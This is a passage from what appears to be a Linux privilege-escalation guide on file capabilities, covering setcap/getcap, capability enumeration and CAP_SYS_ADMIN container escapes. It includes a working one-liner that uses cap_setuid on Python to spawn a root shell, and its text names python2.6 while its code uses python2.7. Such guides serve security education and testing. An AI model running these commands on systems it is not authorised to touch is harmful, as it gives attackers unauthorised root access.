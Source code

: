 ```bash
#Set Capability
setcap cap_net_raw+ep /sbin/ping

#Get Capability
getcap /sbin/ping
/sbin/ping = cap_net_raw+ep
```

The `+ep` means you’re adding the capability (“-” would remove it) as Effective and Permitted.

To identify programs in a system or folder with capabilities:

```bash
getcap -r / 2>/dev/null
```

### Exploitation example

In the following example the binary `/usr/bin/python2.6` is found vulnerable to privesc:

```bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

**Capabilities** needed by `tcpdump` to **allow any user to sniff packets**:

```bash
setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump
getcap /usr/sbin/tcpdump
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
```

### The special case of "empty" capabilities

Note that one can assign empty capability sets to a program file, and thus it is possible to create a set-user-ID-root program that changes the effective and saved set-user-ID of the process that executes the program to 0, but confers no capabilities to that process. Or, simply put, if you have a binary that:

1. is not owned by root
2. has no `SUID`/`SGID` bits set
3. has empty capabilities set (e.g.: `getcap myelf` returns `myelf =ep`)

then **that binary will run as root**.

## CAP\_SYS\_ADMIN

[**CAP\_SYS\_ADMIN**](https://man7.org/linux/man-pages/man7/capabilities.7.html) is largely a catchall capability, it can easily lead to additional capabilities or full root (typically access to all capabilities). `CAP_SYS_ADMIN` is required to perform a range of **administrative operations**, which is difficult to drop from containers if privileged operations are performed within the container. Retaining this capability is often necessary for containers which mimic entire systems versus individual application containers which can be more restrictive. Among other things this allows to **mount devices** or abuse **release\_agent** to escape from the container.
